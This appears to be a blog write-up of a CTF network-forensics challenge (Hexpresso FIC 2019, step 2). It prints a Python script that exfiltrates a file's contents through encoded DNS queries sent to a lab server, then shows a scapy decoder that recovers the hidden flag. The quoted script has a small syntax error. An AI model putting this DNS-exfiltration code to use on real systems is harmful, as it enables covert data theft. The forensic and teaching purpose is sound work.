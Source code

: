 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 2
slug: hexpresso-fic-2
date: 19/12/2019 02
---
```


The second step is some network forensics.

![Introduction](/assets/hexpresso-fic-quals/step2/intro.png)

We are given a PCAP file. It is not too big, we can clearly observe three
events (all the addresses are on `172.16.42.0`):

* `.99` requests `/index.html` to `.222` (does not matter for the challenge)
* `.99` requests `/dnstunnel.py` to `.222`
* `.99` performs dozens of DNS queries

Here is the Python script `dnstunnel.py`:

```python
#! /usr/bin/python3

import random
import os


# This is the "secret" data that is going to be sent
f = open('data.txt','rb')
data = f.read()
f.close()

print("[+] Sending %d bytes of data" % len(data))
print("[+] Cut in pieces ... ")


# encrypt encodes the chunck l in base16
# l is also XORED with a random key, that is added in front of the final
# payload chunk
def encrypt(l):
    key = random.randint(13, 254)
    output = hex(key)[2:].zfill(2)

    # This AES is a bit weird but who am I to judge
    for i in range(len(l)):
        aes = ord(l[i]) ^ key)
        output += hex(aes)[2:].zfill(2)

    # Key + encoded data
    return output


# udp_secure_tunneling actually performs the DNS query
# The command is as follows:
# host -t A <ENCODED_DATA>.local.tmux <DNS server>
# It is fully synchronous and there is a sleep so the ordering of the DNS
# queries is not very likely to be undefined.
def udp_secure_tunneling(my_secure_data):
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data
    os.system(mycmd)
    os.system("sleep 1")


# send_data sends a chunk of data (global variable), starting
# at position s
def send_data(s):
    global n
    n = n+1
    # Each DNS query exfiltrates between 4 and 11 bytes
    length = random.randint(4,11)

    # There is a redundancy mechanism, in case of packet lost
    # If we send more bytes we can recover if we loose some packets?
    redundancy = random.randint(2,16)
    chunk = data[s:s+length+redundancy].decode("utf-8")
    # Redundancy marks are added to the payload
    chunk = "%04d%s"%(s,chunk)
    print("%04d packet --> %s.local.tux" % (n,chunk))

    blob = encrypt(chunk)
    udp_secure_tunneling(blob)
    return s + length


# Keep track of what remains to be sent
cursor = 0

# As long as it remains some data, send data from cursor
while cursor < len(data):
    cursor = send_data(cursor)
```

Please, take a look at the comments on the script.

We can understand that some secret payload has been sent using the DNS
exfiltration technique. Its very simple: you just make a bunch of DNS
queries, embedding the data in the domain that is queried.

The only real constraint of this technique is that the data has to be pure
plaintext (as far as I know?) so you need some kind of encoding. The base64
is often chosen but here it is base16.

There is also a XOR operation... Each DNS query has its own key but really,
it is no big deal as the key is sent alongside the cipher.

We will talk a bit more about the redundancy mechanism later. For now, we
just need to know that we could expect some data to be duplicated and that
redundancy marks (`chunk = "%04d%s"%(s,chunk)`) are part of the payload.

We have tout bien compris so let's write a script that:

* Iterates over the DNS queries
* For each query, extracts its key
* Decodes its payload
* Performs the XOR operation
* Adds the result to a buffer

After a few copy/pastes here we go:

```python
from scapy.all import rdpcap, DNSQR, DNSRR


def extract(file_path):
    result = ''

    for p in rdpcap(file_path):
        if p.haslayer(DNSQR) and not p.haslayer(DNSRR):
            # It is a DNS query!
            # We remove the base domain
            qry = p[DNSQR].qname.decode().replace('.local.tux.', '')

            key = qry[0:2] # Extract the key
            rest = qry[2:] # What remains is the payload

            # Group the characters by two (base16)
            byTwo = [rest[i:i+2] for i in range(0, len(rest), 2)]
            # Base conversion, XOR and decode
            for c in byTwo:
                plain = int(c, 16) ^ int(key, 16)
                result += chr(plain)

    return result


with open('output.txt', 'w+') as f:
    f.write(extract('cb52ae4d15503c598f0bb42b8af1ce51.pcap'))
```

Here is the content of `output.txt`:

```
0000Congratulations!! Y0011ions!! You did it so f0020u did it so far!

Here is 0030o far!

Here is t0039ere is the link 0049 link in bas0059ase32 for0064 form:
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4T
MOJ01373GIMZVGI4T
MOJQM0141ZVGI4T
MOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===

 _    0163QU===

 _      0168

 _             0179        0183                 0189                   0196           0205            
|0213    
| |__   _0224  _____  ___ _0228___  ___ __ 0235_ __  _ __0243__ ___  ___ ___  _0253_ ___  ___0261__  
|0265
| '_ \ / _ \ \0273/ _ \ \/ / '_ \| '_0283 '_ \| '__/ 0288| '__/ _ \/ __/ __0298/ __/ __|/0303 __|/ _ \ 
| | | |  __/0310 \ 
| | | |  __/>  <| |0320|  __/>  <| |0328 <| |_) | | |  0333_) | | |  __/\__ \_0342 __/\__ \__ \ (_) |
|_| 0353 \ (_) |
|_| |_|\0362|_| |_|\___/_/\_\ ._0371__/_/\_\ .__/|_|  \___||__0382_/|_|  \___||___/0389\___||___/_0397_/___/\___/ 
      0401_/\___/ 
           0409
       0413             |0424  |_|          0431                    0435                    0443              


0447          


0453    


0459
```

It looks promising but is very hard to read because of the redundancy. Pieces
of text are repeated, and the redundancy marks (`0000`, `0030`, etc) are
mixed with the content.

We can partially read the text: *Here is the link in base32 form:*. So let's
extract the base32 chunk and put it on a single line:

```
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4TMOJ01373GIMZVGI4TMOJQM0141ZVGI4TMOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===0163QU===
```

Here is the Vim regex I used to clean up the string:

```
:%s/\(.\{-\}\)\d\{4\}\1/\1/
```

It matches on any piece of text similar to `ABCDEF0123ABCDEF` (piece of text
(base32 charset), redundancy indicator (4 digits), redundancy text (same as
the piece of text)) and replaces it by `ABCDEF` (the piece of text).

Repeatedly applying the regex produces the following string:

```
NB2HI4DTHIXS6Y3UMYXGQZLYOBZGK43TN4XGM4RPGU3TSODDME2DOZDBMNSTKYZVMU3GIMZVGI4TMOJQMM4DMMZTG42QU===
```

Which decodes to our flag:

```
https://ctf.hexpresso.fr/5798ca47dace5c5e6d3529690c863375
```

You can [click here](/hexpresso-fic-3) for the next step.